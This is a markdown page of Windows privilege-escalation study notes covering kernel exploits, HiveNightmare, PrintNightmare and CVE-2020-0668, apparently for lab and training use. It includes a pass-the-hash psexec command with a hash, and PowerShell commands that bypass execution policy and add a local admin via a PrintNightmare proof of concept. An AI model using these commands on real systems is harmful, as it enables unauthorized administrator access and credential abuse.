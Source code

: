 # Windows Privesc

## Enumeration

- You can do some manual enumeration using [Windows CMD](powershell-cmd.md#cmd)
- You can also do automatic enumeration using dedicated [tools (see the tools below)](#tools)

## Kernel Exploits

### What is a kernel

![Kernel](https://upload.wikimedia.org/wikipedia/commons/thumb/8/8f/Kernel_Layout.svg/1024px-Kernel_Layout.svg.png)  

- [See the definition on Wikipedia](https://en.wikipedia.org/wiki/Kernel_(operating_system))

#### Windows kernel

![Windows kernel](https://www.thewindowsclub.com/wp-content/uploads/2019/08/Windows-Kernel.png)  
- [Windows kernel in detail here](https://www.thewindowsclub.com/what-is-a-kernel-in-os-what-are-the-types-of-kernel)

### Kernel Exploits

- [Windows Kernel Exploits](https://github.com/SecWiki/windows-kernel-exploits)
- See an example of a privesc with a kernel exploit in [this writeup](../writeups/HTB-Devel.md)

#### Methodology

1. Enumerate win version / patch level (systeminfo)
2. Find matching exploits (Google, ExploitDB, GIthub)
3. Compile and run

**ATTENTION: Kernel exploits are often unstable and could crash the system**

### Famous kernel exploit

- MS08-067 - vulnerability in the "Server" service
- MS17-010 - EternalBlue - remote code execution vulnerability
- CVE-2021-36934 HiveNightmare - SeriousSam - Windows 10 flaw that results in ANY user having rights to read the Windows registry

### Enumeration and Exploitation Examples

- `icacls c:\Windows\System32\config\SAM` check perm on SAM file
- Exploit CVE-2021-36934 with this [poc](https://github.com/cube0x0/CVE-2021-36934) you will get hash and then will be able to get a shell for instance with psexec `psexec.py INLANEFREIGHT/administrator@10.129.43.13 -hashes aad3b435b51404eeaad3b435b51404ee:7796ee39fd3a9c3a1844556115ae1a54` 
- Check for spooler service using powershell `ls \\localhost\pipe\spoolss`
- Add local admon with PrintNightmare with this [Powershell PoC](https://github.com/calebstewart/CVE-2021-1675)
  - `Set-ExecutionPolicy Bypass -Scope Process`
  - `Import-Module .\CVE-2021-1675.ps1`
  - `Invoke-Nightmare -NewUser "username" -NewPassword "password123!" -DriverName "PrintIt"`
  - Check if it worked `net user username`
- Check installed updates 
  - Powershell `systeminfo` `wmic qfe list brief` `Get-Hotfix`
  - CMD with wmic `wmic qfe list brief`
- CVE-2020-0668
  - Check out this blog [post](https://itm4n.github.io/cve-2020-0668-windows-service-tracing-eop/)
  - Use this [exploit](https://github.com/RedCursorSecurityConsulting/CVE-2020-0668)
    - Download it
    - Open it with visual studio
    - Build it